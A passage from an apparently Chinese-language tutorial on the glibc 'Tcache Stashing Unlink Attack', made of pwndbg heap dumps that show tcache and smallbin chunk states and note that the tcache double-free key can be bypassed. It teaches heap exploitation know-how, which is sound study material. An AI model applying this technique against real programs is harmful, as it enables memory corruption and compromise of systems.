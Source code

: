 ```powershell
0x602610:	0x0000000000000000	0x00000000000000a1 #chunk7(free-tcachebin)
0x602620:	0x0000000000602580	0x0000000000602010
......
0x6026b0:	0x0000000000000000	0x00000000000000a1 #chunk8(free-tcachebin)
0x6026c0:	0x0000000000602620	0x0000000000602010
......
0x602750:	0x0000000000000000	0x00000000000000a1 #chunk9(free-tcachebin)
0x602760:	0x00000000006026c0	0x0000000000602010
......
0x6027f0:	0x0000000000000000	0x00000000000000b1 #malloc
......
0x6028a0:	0x0000000000000000	0x0000000000020761 #top_chunk
......
0x602950:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

因为Tcache Stashing Unlink Attack要求tcachebin未满，因此这里申请两个chunk（b 37）：

```powershell
pwndbg> x/300gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x602010:	0x0000000000000000	0x0000000000000005
......
0x602090:	0x00000000006026c0	0x0000000000000000
					#指向最后一个tcache free chunk
......
0x602250:	0x0000000000000000	0x00000000000000a1 #chunk1（free-smallbin）
0x602260:	0x00007ffff7dcdd30	0x0000000000602390
......
0x6022f0:	0x0000000000000000	0x00000000000000a1 #chunk2（malloc）
0x602300:	0x0000000000602760	0x0000000000000000
......
0x602390:	0x0000000000000000	0x00000000000000a1 #chunk3（free-smallbin）
0x6023a0:	0x0000000000602250	0x00007ffff7dcdd30
......
0x602430:	0x0000000000000000	0x00000000000000a1 #chunk4(free-tcachebin)
0x602440:	0x0000000000000000	0x0000000000602010
															#tcache_key
                              #防止tcache double free（可以绕过）
......
0x6024d0:	0x0000000000000000	0x00000000000000a1 #chunk5(free-tcachebin)
0x6024e0:	0x0000000000602440	0x0000000000602010
......
0x602570:	0x0000000000000000	0x00000000000000a1 #chunk6(free-tcachebin)
0x602580:	0x00000000006024e0	0x0000000000602010
......
0x602610:	0x0000000000000000	0x00000000000000a1 #chunk7(free-tcachebin)
0x602620:	0x0000000000602580	0x0000000000602010
......
0x6026b0:	0x0000000000000000	0x00000000000000a1 #chunk8(free-tcachebin)
0x6026c0:	0x0000000000602620	0x0000000000602010
......
0x602750:	0x0000000000000000	0x00000000000000a1 #chunk9(malloc)
0x602760:	0x00000000006026c0	000000000000000000
......
0x6027f0:	0x0000000000000000	0x00000000000000b1 #chunk10(malloc)
......
0x6028a0:	0x0000000000000000	0x0000000000020761 #top_chunk
......
0x602950:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0xa0 [  5]: 0x6026c0 —▸ 0x602620 —▸ 0x602580 —▸ 0x6024e0 —▸ 0x602440 ◂— 0x0
```